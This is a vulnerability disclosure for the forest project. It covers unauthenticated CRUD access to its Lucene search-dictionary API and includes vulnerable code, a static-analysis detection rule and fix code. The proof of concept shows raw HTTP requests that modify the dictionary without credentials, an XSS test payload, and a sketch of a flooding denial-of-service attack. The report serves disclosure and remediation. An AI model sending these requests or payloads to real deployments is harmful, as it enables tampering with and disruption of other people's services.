





## Title: [Unauthorized Dictionary Management Leading to System-Wide Search Manipulation] in [forest] <= [v1.0]

# **BUG_Author:**  [intSheep,yaklang. io, IRify]

## Product Information
- **Software Link:** [https://github.com/rymcu/forest](https://github.com/rymcu/forest)
- **Affected Version:** <= v1.0
- **Vulnerability Type:** CWE-862 (Missing Authorization), CWE-284 (Improper Access Control)

## Vulnerability Details

### Vulnerable Files
- `src/main/java/com/rymcu/forest/lucene/api/UserDicController.java`

### Vulnerability Type
- **Missing Authorization** (CWE-862)
- **Improper Access Control** (CWE-284)
- **Broken Access Control** (OWASP Top 10 2021 - A01:2021)

### Root Cause

**Critical Missing Authorization Vulnerability:**

The application contains a **critical security flaw** in the Lucene user dictionary management API where **ANY unauthenticated user** can perform Create, Read, Update, and Delete (CRUD) operations on the system-wide search dictionary. This dictionary directly affects the full-text search functionality across the entire application, including article search, user search, and tag recognition.

**Vulnerable Code Analysis:**

```java
// UserDicController.java - Lines 30-60
@RestController
@RequestMapping("/api/v1/lucene/dic")
public class UserDicController {

    @Resource
    private UserDicService dicService;

    // ❌ NO AUTHENTICATION - Anyone can view all dictionaries
    @GetMapping("/getAll")
    public GlobalResult getAll(
            @RequestParam(defaultValue = "0") Integer page,
            @RequestParam(defaultValue = "10") Integer rows) {
        PageHelper.startPage(page, rows);
        List<UserDic> list = dicService.getAll();
        PageInfo<UserDic> pageInfo = new PageInfo<>(list);
        Map<String, Object> map = new HashMap<>(2);
        map.put("userDic", pageInfo.getList());
        Map pagination = Utils.getPagination(pageInfo);
        map.put("pagination", pagination);
        return GlobalResultGenerator.genSuccessResult(map);
    }

    // ❌ CRITICAL - Anyone can add malicious words to system dictionary
    @PostMapping("/addDic/{dic}")
    public GlobalResult addDic(@PathVariable String dic) {
        dicService.addDic(dic);  // Writes to database AND file system
        return GlobalResultGenerator.genSuccessResult("新增字典成功");
    }

    // ❌ CRITICAL - Anyone can modify existing dictionary entries
    @PutMapping("/editDic")
    public GlobalResult getAllDic(@RequestBody UserDic dic) {
        dicService.updateDic(dic);  // Updates database AND regenerates file
        return GlobalResultGenerator.genSuccessResult("更新字典成功");
    }

    // ❌ CRITICAL - Anyone can delete critical dictionary entries
    @DeleteMapping("/deleteDic/{id}")
    public GlobalResult deleteDic(@PathVariable String id) {
        dicService.deleteDic(id);  // Deletes from database AND regenerates file
        return GlobalResultGenerator.genSuccessResult("删除字典成功");
    }
}
```

**Dictionary Persistence Mechanism:**

```java
// UserDicServiceImpl.java - Lines 38-79
@Override
public void addDic(String dic) {
    userDicMapper.addDic(dic);
    writeUserDic();  // Writes to file system
}

@Override
public void writeUserDic() {
    try {
        String filePath = "lucene/userDic/";
        File file = new File(filePath);
        if (!file.exists()) {
            file.mkdirs();
        }
        FileOutputStream stream = new FileOutputStream(file + "/userDic.dic", false);
        OutputStreamWriter outfw = new OutputStreamWriter(stream, StandardCharsets.UTF_8);
        PrintWriter fw = new PrintWriter(new BufferedWriter(outfw));
        userDicMapper
                .getAllDic()
                .forEach(
                        each -> {
                            fw.write(each);
                            fw.write("\r\n");
                        });
        fw.flush();
        fw.close();
        Dictionary.getSingleton().updateUserDict();  // Reloads Lucene dictionary
    } catch (IOException e) {
        e.printStackTrace();
    }
}
```

**Security Issues:**

1. **No Authentication Required**: All four endpoints (GET, POST, PUT, DELETE) have NO authentication checks - no `@RequiresPermissions`, no `@RequiresRoles`, no token validation.

2. **System-Wide Impact**: The user dictionary affects ALL users' search results across the entire platform, not just individual users.

3. **File System Manipulation**: Each operation triggers file system writes and Lucene dictionary reloads, enabling potential DoS attacks.

4. **No Input Validation**: The `addDic()` method accepts any string without validation, allowing injection of malicious content.

5. **No Rate Limiting**: Attackers can flood the system with dictionary operations.

### Impact

This vulnerability has **CRITICAL** severity with the following impacts:

#### 1. **Search Result Manipulation**
- Attackers can add malicious words to pollute search results
- Competitors can manipulate product/article search rankings
- Spam terms can be injected to redirect users to malicious content
- Professional terms can be deleted to break domain-specific searches

**Example Attack:**
```
Add: "Best Product" → "Competitor's Product"
Result: Users searching for "Best Product" get competitor results
```

#### 2. **Denial of Service (DoS)**
Multiple attack vectors:
- **Dictionary Flooding**: Add millions of entries to exhaust storage
- **Rapid Updates**: Trigger continuous file rewrites to spike I/O
- **Delete All Entries**: Remove all dictionary words to break search functionality
- **Memory Exhaustion**: Force dictionary reload with massive datasets

**Attack Impact:**
```
POST /api/v1/lucene/dic/addDic/spam_word_1
POST /api/v1/lucene/dic/addDic/spam_word_2
... (repeat 1,000,000 times)
→ Disk full, search service crashed
```

#### 3. **Content Injection**
- Inject offensive/illegal terms to damage reputation
- Add brand names for trademark infringement
- Insert malicious scripts in dictionary entries (if rendered unsanitized)
- Poison search index with SEO spam

#### 4. **Business Intelligence Leak**
- View dictionary to discover business focus areas
- Analyze custom terms to understand platform strategy
- Extract proprietary terminology and technical vocabulary
- Identify user behavior patterns through search terms

#### 5. **Compliance Violations**
- Inject illegal content into system dictionaries
- Add GDPR-sensitive terms without consent
- Create audit trail problems (no attribution for changes)
- Violate content moderation requirements

### Affected Endpoints

**All endpoints are completely unprotected:**

| Endpoint | Method | Vulnerability | Impact |
|----------|--------|---------------|---------|
| `/api/v1/lucene/dic/getAll` | GET | ❌ No Auth | Information Disclosure |
| `/api/v1/lucene/dic/addDic/{dic}` | POST | ❌ No Auth | Unauthorized Data Creation |
| `/api/v1/lucene/dic/editDic` | PUT | ❌ No Auth | Unauthorized Data Modification |
| `/api/v1/lucene/dic/deleteDic/{id}` | DELETE | ❌ No Auth | Unauthorized Data Deletion |

**Affected System Components:**
- ✅ Article Search (uses Lucene tokenizer)
- ✅ User Search (uses Lucene tokenizer)
- ✅ Portfolio Search (uses Lucene tokenizer)
- ✅ Tag Recognition (uses dictionary for tag splitting)
- ✅ Content Indexing (uses dictionary for word segmentation)

## Proof of Concept

### Step 1: Unauthenticated Dictionary Enumeration

**Request:**
```http
GET /api/lucene/dic/getAll HTTP/1.1
Host: 198.18.0.1:3000
fingerprint: 00ca00ef0022001b
Referer: http://198.18.0.1:3000/portfolios?page=1
Accept: application/json, text/plain, */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36

```

**Response:**


**Observation:**
- ❌ No authentication required
- ❌ Full dictionary exposed
- ❌ Business terminology revealed

---

### Step 2: Unauthorized Dictionary Addition

**Request:**
```http
POST /api/lucene/dic/addDic/testDic  HTTP/1.1
Host: 198.18.0.1:3000
fingerprint: 00ca00ef0022001b
Referer: http://198.18.0.1:3000/portfolios?page=1
Accept: application/json, text/plain, */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded

```

**Response:**



---

### Step 3: Unauthorized Dictionary Deletion

**Request:**
```http
DELETE /api/lucene/dic/deleteDic/testDic HTTP/1.1
Host: 198.18.0.1:3000
fingerprint: 00ca00ef0022001b
Referer: http://198.18.0.1:3000/portfolios?page=1
Accept: application/json, text/plain, */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36

```

**Response:**


---

### Step 4: Malicious Dictionary Update

**Request:**
```http
PUT /api/lucene/dic/editDic HTTP/1.1
Host: 198.18.0.1:3000
fingerprint: 00ca00ef0022001b
Referer: http://198.18.0.1:3000/portfolios?page=1
Content-Type: application/json
Accept: application/json

{"id":1,"dic":"<script>alert('XSS')</script>"}
```

**Response:**


## Code Scan Evidence

### Discovery via Static Analysis

This vulnerability was discovered with the assistance of **[IRify](https://ssa.to)**, an advanced static code analysis tool for security vulnerability detection.

**IRify Detection Rule:**
```yaml
*Controller?{opcode:make}.__ref__?{!have:/(OpenData|OpenAi|Auth|Answer|LuceneSearch|Article|CommonApi)Controller/}?{!.annotation.*?{any:RequiresPermissions,RequiresRoles}} as   $NotAuthClass

  $NotAuthClass.*?{opcode:function} as $func
  $func?{!.annotation.*?{any:RequiresPermissions,AuthorshipInterceptor}} as $NotAnnoAuthFunc

  $NotAnnoAuthFunc?{!<foreach_function_inst()>?{have:"getCurrentUserByToken"}} as $NotAnyAuthFunc

  alert $NotAnyAuthFunc for {
  level:mid,
  message:"越权"
  risk:"越权"
}
```

**IRify Audit Results:**


### Manual Code Analysis

**Comparison with Secure Controllers:**

| Controller | Endpoint | Authorization | Status |
|------------|----------|---------------|--------|
| ArticleController | `/api/v1/article/post` | ✅ `@RequiresPermissions(value = "user")` | SECURE |
| ArticleController | `/api/v1/article/delete/{id}` | ✅ `@AuthorshipInterceptor` | SECURE |
| **UserDicController** | `/api/v1/lucene/dic/addDic/{dic}` | ❌ **NONE** | **VULNERABLE** |
| **UserDicController** | `/api/v1/lucene/dic/deleteDic/{id}` | ❌ **NONE** | **VULNERABLE** |

**Code Pattern Analysis:**

```java
// ✅ SECURE - ArticleController.java
@PostMapping("/post")
@RequiresPermissions(value = "user")  // ← Authorization present
public GlobalResult<Long> postArticle(@RequestBody ArticleDTO article) {
    User user = UserUtils.getCurrentUserByToken();
    return GlobalResultGenerator.genSuccessResult(articleService.postArticle(article, user));
}

// ❌ VULNERABLE - UserDicController.java
@PostMapping("/addDic/{dic}")
// ← NO authorization annotation!
public GlobalResult addDic(@PathVariable String dic) {
    dicService.addDic(dic);
    return GlobalResultGenerator.genSuccessResult("新增字典成功");
}
```

## Suggested Repairs

### 1. **Immediate Fix (Critical Priority)**

Add proper authorization to all endpoints:

```java
package com.rymcu.forest.lucene.api;

import com.github.pagehelper.PageHelper;
import com.github.pagehelper.PageInfo;
import com.rymcu.forest.core.result.GlobalResult;
import com.rymcu.forest.core.result.GlobalResultGenerator;
import com.rymcu.forest.lucene.model.UserDic;
import com.rymcu.forest.lucene.service.UserDicService;
import com.rymcu.forest.util.Utils;
import org.apache.shiro.authz.annotation.RequiresRoles;
import org.springframework.web.bind.annotation.*;

import javax.annotation.Resource;
import java.util.HashMap;
import java.util.List;
import java.util.Map;

@RestController
@RequestMapping("/api/v1/lucene/dic")
public class UserDicController {

    @Resource
    private UserDicService dicService;

    // ✅ FIXED: Require admin role for viewing
    @GetMapping("/getAll")
    @RequiresRoles(value = "admin")  // ← Add this
    public GlobalResult getAll(
            @RequestParam(defaultValue = "0") Integer page,
            @RequestParam(defaultValue = "10") Integer rows) {
        PageHelper.startPage(page, rows);
        List<UserDic> list = dicService.getAll();
        PageInfo<UserDic> pageInfo = new PageInfo<>(list);
        Map<String, Object> map = new HashMap<>(2);
        map.put("userDic", pageInfo.getList());
        Map pagination = Utils.getPagination(pageInfo);
        map.put("pagination", pagination);
        return GlobalResultGenerator.genSuccessResult(map);
    }

    // ✅ FIXED: Require admin role for adding
    @PostMapping("/addDic/{dic}")
    @RequiresRoles(value = "admin")  // ← Add this
    public GlobalResult addDic(@PathVariable String dic) {
        // ✅ Add input validation
        if (dic == null || dic.trim().isEmpty()) {
            return GlobalResultGenerator.genErrorResult("字典内容不能为空");
        }
        if (dic.length() > 50) {
            return GlobalResultGenerator.genErrorResult("字典内容过长");
        }
        if (!dic.matches("^[\\u4e00-\\u9fa5a-zA-Z0-9]+$")) {
            return GlobalResultGenerator.genErrorResult("字典内容包含非法字符");
        }
        
        dicService.addDic(dic);
        return GlobalResultGenerator.genSuccessResult("新增字典成功");
    }

    // ✅ FIXED: Require admin role for updating
    @PutMapping("/editDic")
    @RequiresRoles(value = "admin")  // ← Add this
    public GlobalResult getAllDic(@RequestBody UserDic dic) {
        // ✅ Add input validation
        if (dic == null || dic.getId() == null) {
            return GlobalResultGenerator.genErrorResult("参数错误");
        }
        if (dic.getDic() == null || dic.getDic().trim().isEmpty()) {
            return GlobalResultGenerator.genErrorResult("字典内容不能为空");
        }
        if (dic.getDic().length() > 50) {
            return GlobalResultGenerator.genErrorResult("字典内容过长");
        }
        if (!dic.getDic().matches("^[\\u4e00-\\u9fa5a-zA-Z0-9]+$")) {
            return GlobalResultGenerator.genErrorResult("字典内容包含非法字符");
        }
        
        dicService.updateDic(dic);
        return GlobalResultGenerator.genSuccessResult("更新字典成功");
    }

    // ✅ FIXED: Require admin role for deleting
    @DeleteMapping("/deleteDic/{id}")
    @RequiresRoles(value = "admin")  // ← Add this
    public GlobalResult deleteDic(@PathVariable String id) {
        // ✅ Add validation
        if (id == null || id.trim().isEmpty()) {
            return GlobalResultGenerator.genErrorResult("参数错误");
        }
        
        dicService.deleteDic(id);
        return GlobalResultGenerator.genSuccessResult("删除字典成功");
    }
}
```

### 2. **Enhanced Input Validation**

Create a dedicated validator:

```java
package com.rymcu.forest.lucene.validator;

import java.util.regex.Pattern;

public class UserDicValidator {
    
    private static final int MAX_DIC_LENGTH = 50;
    private static final Pattern VALID_DIC_PATTERN = Pattern.compile("^[\\u4e00-\\u9fa5a-zA-Z0-9]+$");
    
    // Sensitive words that should be blocked
    private static final List<String> BLOCKED_WORDS = Arrays.asList(
        // Add blocked terms here
    );
    
    public static ValidationResult validate(String dic) {
        if (dic == null || dic.trim().isEmpty()) {
            return ValidationResult.error("字典内容不能为空");
        }
        
        String trimmed = dic.trim();
        
        if (trimmed.length() > MAX_DIC_LENGTH) {
            return ValidationResult.error("字典内容不能超过" + MAX_DIC_LENGTH + "个字符");
        }
        
        if (!VALID_DIC_PATTERN.matcher(trimmed).matches()) {
            return ValidationResult.error("字典内容只能包含中文、英文和数字");
        }
        
        // Check against blocked words
        for (String blocked : BLOCKED_WORDS) {
            if (trimmed.contains(blocked)) {
                return ValidationResult.error("字典内容包含敏感词汇");
            }
        }
        
        return ValidationResult.success(trimmed);
    }
    
    public static class ValidationResult {
        private boolean valid;
        private String message;
        private String sanitizedValue;
        
        public static ValidationResult success(String value) {
            ValidationResult result = new ValidationResult();
            result.valid = true;
            result.sanitizedValue = value;
            return result;
        }
        
        public static ValidationResult error(String message) {
            ValidationResult result = new ValidationResult();
            result.valid = false;
            result.message = message;
            return result;
        }
        
        // Getters...
    }
}
```

## Additional Information

### References
- CWE-862: Missing Authorization
- CWE-284: Improper Access Control
- CWE-639: Authorization Bypass Through User-Controlled Key
- OWASP Top 10 2021 - A01:2021 Broken Access Control
- OWASP Access Control Cheat Sheet: https://cheatsheetseries.owasp.org/cheatsheets/Access_Control_Cheat_Sheet.html

### Business Impact

**Search Functionality Compromise:**
- Platform-wide search results can be manipulated
- Professional terminology can be deleted, breaking domain searches
- Competitor terms can be injected to redirect traffic

**Operational Impact:**
- Disk space exhaustion from dictionary flooding
- CPU/IO spike from continuous dictionary reloads
- Search service degradation or complete failure

**Reputational Damage:**
- Offensive terms in search results
- Broken search functionality frustrates users
- Loss of user trust in platform reliability

## Conclusion

This vulnerability represents a **CRITICAL security flaw** that allows any unauthenticated user to manipulate the system-wide search dictionary, potentially causing widespread service disruption, data integrity issues, and reputational damage.


